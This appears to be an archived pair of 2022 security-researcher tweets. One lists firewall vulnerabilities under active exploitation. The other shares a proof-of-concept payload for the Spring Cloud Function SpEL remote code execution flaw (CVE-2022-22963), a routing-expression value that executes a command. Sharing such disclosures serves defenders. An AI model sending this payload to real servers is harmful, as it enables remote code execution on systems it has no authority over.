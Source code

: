 
# Yassineaboukir
**https://twitter.com/Yassineaboukir/status/1509038814739767299 _at 2022-03-30 05:24:24_**
<blockquote>
It couldn’t get any worse as some of the widely used firewall appliances are undergoing active exploitation nowadays 🤯

• Watchguard (CVE-2022-26318): Pre-Auth RCE.
• Sophos (CVE-2022-1040): Auth bypass to RCE.
• SonicWall (CVE-2022-22274): DoS/RCE.
</blockquote>


<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>12</code></td>
<td>Favorites: <code>67</code></td>
</tr></table>

---

# bytehx343
**https://twitter.com/bytehx343/status/1509034539330732033 _at 2022-03-30 05:07:25_**
<blockquote>
Spring Cloud Function Spel RCE aka CVE-2022-22963 POC.
payload
https://t.co/4Yb3FFRFoC.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("xcalc") https://t.co/1loEZJrIX3
</blockquote>

* http://spring.cloud

<table><tr>
<td><img src="pictures/http+++pbs.twimg.com+media+FPEq6aBakAQd9K_.jpg" alt="http://pbs.twimg.com/media/FPEq6aBakAQd9K_.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>21</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>208</code></td>
<td>Favorites: <code>643</code></td>
</tr></table>

---